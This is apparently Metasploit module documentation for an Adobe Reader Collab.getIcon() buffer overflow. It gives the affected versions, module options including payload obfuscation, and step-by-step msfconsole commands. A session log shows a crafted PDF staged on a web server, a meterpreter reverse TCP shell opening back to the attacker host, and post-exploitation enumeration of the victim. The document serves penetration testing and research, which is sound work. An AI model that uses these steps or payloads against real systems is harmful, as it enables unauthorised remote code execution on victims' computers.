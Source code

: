 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat. Affected versions include < 7.1.1, < 8.1.3, and < 9.1. By creating a specially crafted pdf that a contains malformed `Collab.getIcon()` call, an attacker may be able to execute arbitrary code.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-8-0-0]

### Test results (on Windows XP SP3)
  reader 7.0.5 - no trigger
  reader 7.0.8 - no trigger
  reader 7.0.9 - no trigger
  reader 7.1.0 - no trigger
  reader 7.1.1 - reported not vulnerable
  reader 8.0.0 - works
  reader 8.1.2 - works
  reader 8.1.3 - reported not vulnerable
  reader 9.0.0 - works
  reader 9.1.0 - reported not vulnerable

## Options

  ```
  FILENAME
  ```
  The file name

  ```
  PDF::Encoder [value]
  ```
  Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX

  ```
  PDF::Method [value]
  ```
  Select PAGE, DOCUMENT, or ANNOTATION

  ```
  PDF::Obfuscate [yes/no]
  ```
  Whether or not we should obfuscate the output

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_geticon`
   4. Do: `set payload [windows/meterpreter/reverse_tcp]`
   5. Do: `set LHOST [IP]`
   6. Do: `exploit`
   7. Do: `use [exploit/multi/handler]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 8.0.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_geticon
  msf exploit(windows/fileformat/adobe_geticon) > set FILENAME icon.pdf
    FILENAME => icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > exploit

    [*] Creating 'icon.pdf' file...
    [+] icon.pdf stored at /root/.msf4/local/icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf
    [*] exec: cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf

  msf payload(windows/meterpreter/reverse_tcp) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 3 opened (192.168.1.3:4444 -> 192.168.1.5:1160) at 2019-12-06 14:40:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

     Name            Version
     ----            -------
     Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191206144654_default_192.168.1.5_host.application_162364.txt
  ```
